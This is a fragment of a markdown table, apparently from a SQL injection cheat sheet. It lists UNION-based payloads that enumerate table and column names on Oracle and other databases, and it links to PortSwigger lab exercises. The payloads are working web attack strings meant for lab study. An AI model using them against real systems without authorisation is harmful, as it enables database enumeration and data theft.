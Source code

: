 | `x' UNION SELECT table_name,NULL FROM all_tables--`<br>`x' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | `x' UNION SELECT table_name, NULL FROM information_schema.tables--`<br>`x' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    | `x' UNION SELECT table_name, NULL FROM information_schema.tables--`<br>`x' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | `x' UNION SELECT table_name, NULL FROM information_schema.tables--`<br>`x' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'-- `                                                                                                                                                                                                                                        | List database Content.<br>[See this lab for non oracle db.](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)<br>[This on for oracle db.](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) |